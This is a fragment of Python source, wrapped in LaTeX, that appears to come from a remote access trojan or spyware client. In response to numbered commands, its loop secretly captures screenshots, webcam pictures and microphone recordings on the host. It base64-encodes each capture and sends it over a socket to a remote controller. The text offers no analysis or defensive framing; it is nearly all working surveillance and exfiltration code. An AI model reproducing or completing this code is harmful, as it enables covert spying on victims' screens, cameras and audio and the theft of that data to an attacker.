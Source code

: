 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\begin{lstlisting}{language=Python}
date_time = datetime.now().strftime("%d_%H_%M_%S")
if option == '1':
	data = ["image", date_time]

	if take_screenshot(temp_path):
		if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
			with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '2':
	data = ["wcpic", date_time]

	if take_webcam_picture(temp_path):
		if os.path.isfile(os.path.join(temp_path, "wc_picture.png")):
			with open(os.path.join(temp_path, "wc_picture.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '3':
	data = ["audio", date_time]

	if record_audio(temp_path):
		if os.path.isfile(os.path.join(temp_path, "rec_audio.wav")):
			with open(os.path.join(temp_path, "rec_audio.wav"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")
	try:
		data = base64.b64encode(str(data).encode()).decode()
		self.connection.socket_interact.send_string(data)
	except:
		break
elif option == '4' or stop_threads:
	data = ["close", date_time, "Exit"]
	data =base64.b64encode(str(data).encode()).decode()
	self.connection.socket_stream.send_string(data)
	self.connection.socket_stream.close()
	self.connection.socket_interact.close()
	break
\end{lstlisting}
\end{document}
